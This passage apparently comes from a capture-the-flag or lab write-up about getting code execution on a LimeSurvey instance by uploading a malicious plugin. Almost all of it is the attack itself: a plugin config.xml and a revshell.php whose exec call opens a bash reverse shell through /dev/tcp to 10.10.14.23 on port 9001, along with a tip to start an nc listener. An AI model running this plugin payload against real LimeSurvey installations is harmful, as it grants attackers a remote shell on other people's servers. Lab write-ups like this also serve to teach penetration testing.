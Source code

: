 <img src="lime_survey_login.png" alt="login Lime Survey" width="700"/>
To exploit the vulnerability, a malicious plugin was created consisting of two files:
**`config.xml`**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
  <metadata>
    <name>pwned</name>
    <type>plugin</type>
    <version>6.6.4</version>
    <author>pwned</author>
    <description><![CDATA[Author : pwned]]></description>
  </metadata>
  <compatibility>
    <version>6.0</version>
    <version>5.0</version>
    <version>4.0</version>
  </compatibility>
</config>
```
**`revshell.php`**
```php
<?php
	// Replace with your attacker's IP and listener port
	// Start a listener using: nc -lvnp 9001
	exec("bash -c 'bash -i >& /dev/tcp/10.10.14.23/9001 0>&1'");
?>
```

